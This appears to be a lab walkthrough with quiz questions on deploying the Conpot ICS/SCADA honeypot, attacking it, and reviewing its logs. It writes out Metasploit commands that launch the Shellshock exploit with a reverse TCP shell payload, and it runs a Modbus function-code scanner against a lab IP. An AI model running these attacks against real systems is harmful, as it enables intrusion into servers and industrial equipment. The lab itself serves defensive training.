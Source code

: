 _The Conpot honeypot_ is a noteworthy tool in cybersecurity, offering a sophisticated solution for identifying and mitigating cyber threats. Designed specifically to emulate industrial control systems (ICS) and supervisory control and data acquisition (SCADA) environments, Conpot aims to attract and engage malicious actors targeting critical infrastructure networks. This allows cybersecurity professionals to gain valuable insights into the techniques, tactics, and procedures used by adversaries. By simulating industrial control protocols and devices, Conpot effectively lures potential attackers into a controlled environment, ensuring their actions are closely monitored without exposing actual operational assets to risk.

Conpot's modular architecture and adaptable configurations enhance its efficacy, allowing security practitioners to tailor the emulated environment to match specific industrial protocols. This makes Conpot an indispensable tool for sectors such as energy, manufacturing, and utilities. Additionally, the open-source nature of the framework fosters collaboration, enabling a community of experts to contribute to its evolution and enhance its capabilities against evolving threats.

What term refers to a cybersecurity decoy used to observe and analyze malicious activities?
**Honeypot**
# Snmp service

Previously used for simulating SCADA devices and attack techniques, the Conpot honeypot will now be employed to analyze insights into attacks and their potential to enhance system defense strategies.

Given that Conpot will activate its own SNMP service, it's vital to cease it before initiating the launch of Conpot.
`sudo service snmpd stop`

### Starting Conpot

_Conpot_ is an open-source honeypot software designed to emulate various industrial control systems (ICS) protocols, like Modbus, DNP3, and S7comm, enabling the creation of realistic-looking ICS environments to detect and analyze attacks, gather threat intelligence, and employ features such as logging, alerting, and SNMP server simulation.

First, log in as the user conpot:
`su conpot`

When prompted for the password, enter conpot:
`conpot`

Lastly, to initiate Conpot, enter the following command:
`/home/conpot/.local/bin/conpot --template default --logfile /var/log/conpot/conpot.log -f --temp_dir /tmp`

Which systems does Conpot aim to simulate?
ICS and SCADA
# Starting Metasploit Framework

Navigate to the _Kali Student machine_ where the Metasploit Framework will be launched and utilized to launch the attacks on the Target machine hosting the Conpot Honeypot.

Utilize the following command to launch the Metasploit Framework:
`msfconsole -L
### Metasploit Configuration

The purpose of this particular activity is to execute the Shellshock exploit, which has been utilized in previous experiments. This exploit targets the host system with the goal of compromising it. The primary objective of this exercise is to gather valuable insights into the mechanics of the attack.

On the _metasploit_ console, use the following command:
`use exploit/multi/http/apache_mod_cgi_bash_env_exec

Set the RHOST and RPORT variable to:
`set RHOSTS 192.168.1.102
`set RPORT 8800
`set the TARGETURI varible to:
`set TARGETURI /

And lastly set the Payload variable to:
`set PAYLOAD linux/x86/shell/reverse_tcp

Utilize the exploit command to run the exploit once you've concluded with setting the necessary variables:
`exploit

Once the exploit has been executed, type the following command to exit the Metasploit console: `exit`
# Conpot Honeypot log review

Shift the focus back to the _Ubuntu student machine_ and observe the Conpot output. Conpot's successful detection of the observed activity, along with the inclusion of the actual shellcode that the attacker intended to upload onto the Target host, is noteworthy.
### Starting smod

Now, navigate to the _Kali Student machine_, utilize the smod framework based on Python and Scapy, which has been **explicitly developed** for conducting penetration testing on the Modbus protocol. Which is part of the SCADA honeypot that was launched in the previous step.

To initiate the smod framework utilize the following command:
`python2.7 /opt/smod/smod.py
### Configuring Smod module

_The Smod_ interface closely mirrors that of Metasploit. For this exercise, we will use Smod's getfunc module, a tool designed to identify the Modbus function codes supported by the target device. To select the appropriate module, enter the following command:
`use modbus/scanner/getfunc

During the configuration process, it's important to define two crucial parameters: the _target IP address_ and the _unit ID_. Set these options exactly as outlined below:
`set RHOSTS 192.168.1.102
`set UID 1

To set the port for the Modbus service, use the following command:
`set RPORT 5020

To initiate the scanning process, execute the exploit command:
`exploit

While encountering errors during this process is possible, it will become apparent that the scanner successfully gathers the list of supported function codes-data provided by Conpot. It is advisable to refrain from exiting the Smod shell at this stage, as it will be needed for the following steps.
![[Pasted image 20250805201850.png]]
Which Modbus function code is used to write a single coil?
**function code 5**
# Reviewing Conpot log file

Navigate back to the Target machine. Open a _new terminal_ and access the log file by using the following command:
`cat /var/log/conpot/conpot.log

You will notice that the log contains detailed information about the attempted attacks. This data is valuable and can be used to enhance the host security by identifying patterns, attack techniques, and potential vulnerabilities.
### Firewall Rule activation

In light of the actions detected from the Kali Student machine, which included uploading unauthorized shellcode and conducting reconnaissance on the honeypot, preemptive action is required.

To block the IP address of the Kali Student machine, use the _iptables_ utility to block incoming TCP packets from that machine.
`sudo iptables -A INPUT -p tcp --dport 5020 -s 192.168.1.100 -j DROP

Which command is used to check if the iptables rule was added successfully?
**sudo iptables -L**
# Attack Re-launch

Navigate back to the Kali Student machine running the smod scanner, and reattempt to run the exploit command:
`exploit
After making another attempt to scan using the exploit command in the terminal of the Student machine, no response is received, signifying that the firewall is successfully blocking the request packets.

Additionally, the information gathered from Conpot can be used to create rules for _IDS/IPS_.